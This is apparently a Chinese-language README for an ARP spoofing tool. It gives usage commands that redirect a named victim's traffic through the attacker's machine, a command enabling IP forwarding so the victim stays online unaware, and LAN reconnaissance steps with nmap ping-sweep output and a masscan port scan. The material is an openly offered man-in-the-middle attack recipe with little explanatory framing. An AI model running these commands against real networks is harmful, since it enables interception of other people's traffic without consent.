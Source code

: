 #ARP欺骗代码

本项目可实现局域网的arp欺骗。
#使用方法

可以将目标主机发往网关的流量定向骗至本主机 安装 scapy 模块

    sudo apt install python-scapy
    sudo ./venv/bin/python main.py -i eth0 -t 受害人ip -m rep -s 网关ip
    sudo ./venv/bin/python main.py -i eth0 -t 受害人ip -m req -s 网关ip

开启流量转发
不开启的话，被欺骗对象无法上网

    echo 1 > /proc/sys/net/ipv4/ip_forward
---
#内网扫描
##nmap扫描
kali扫描内网在线主机和网关
https://blog.csdn.net/weixin_39793813/article/details/111282240?utm_term=kali%20linux%E6%89%AB%E6%8F%8F%E5%B1%80%E5%9F%9F%E7%BD%91&utm_medium=distribute.pc_aggpage_search_result.none-task-blog-2

`ifconfig`

        docker0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500 #应用虚拟网卡
            inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
            ether 02:42:b5:ad:0d:a5  txqueuelen 0  (Ethernet)
            RX packets 0  bytes 0 (0.0 B)
            RX errors 0  dropped 0  overruns 0  frame 0
            TX packets 0  bytes 0 (0.0 B)
            TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

    eth0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500 #以太网
            ether 18:c0:4d:47:c1:5b  txqueuelen 1000  (Ethernet)
            RX packets 0  bytes 0 (0.0 B)
            RX errors 0  dropped 0  overruns 0  frame 0
            TX packets 0  bytes 0 (0.0 B)
            TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

    lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536   #回环接口
            inet 127.0.0.1  netmask 255.0.0.0
            inet6 ::1  prefixlen 128  scopeid 0x10<host>
            loop  txqueuelen 1000  (Local Loopback)
            RX packets 258  bytes 20460 (19.9 KiB)
            RX errors 0  dropped 0  overruns 0  frame 0
            TX packets 258  bytes 20460 (19.9 KiB)
            TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

    wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500  #无线网卡
            inet 192.168.124.14  netmask 255.255.255.0  broadcast 192.168.124.255 #网卡信息
            inet6 fe80::8b0e:11c1:df70:9051  prefixlen 64  scopeid 0x20<link>
            ether 60:ee:5c:6f:a1:d5  txqueuelen 1000  (Ethernet)
            RX packets 92829  bytes 91329703 (87.0 MiB)
            RX errors 0  dropped 0  overruns 0  frame 0
            TX packets 79605  bytes 11458130 (10.9 MiB)
            TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
---
`sudo nmap -sP 192.168.124.0/24` #nmap完整扫描局域网内存活主机
                Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-19 18:11 UTC
                Nmap scan report for moshujia.cn (192.168.124.1)
                Host is up (0.0012s latency).
                MAC Address: DC:DA:80:CB:1C:1E (New H3C Technologies)#路由器设备
                Nmap scan report for 192.168.124.6 (192.168.124.6)
                Host is up.
                MAC Address: E6:C0:98:4A:57:7B (Unknown)
                Nmap scan report for 192.168.124.15 (192.168.124.15)
                Host is up.
                MAC Address: 84:6F:CE:C5:2B:07 (Guangdong Oppo Mobile Telecommunications)
                Nmap scan report for 192.168.124.23 (192.168.124.23)
                Host is up.
                MAC Address: 14:5E:69:35:35:01 (Guangdong Oppo Mobile Telecommunications)
                Nmap scan report for 192.168.124.14 (192.168.124.14)
                Host is up.
                Nmap done: 256 IP addresses (5 hosts up) scanned in 3.62 seconds

---
`masscan -p80,8000-8100 192.168.124.1-192.168.124.254 ` #对我们这个局域网主机端口80、8000至8100进行检测
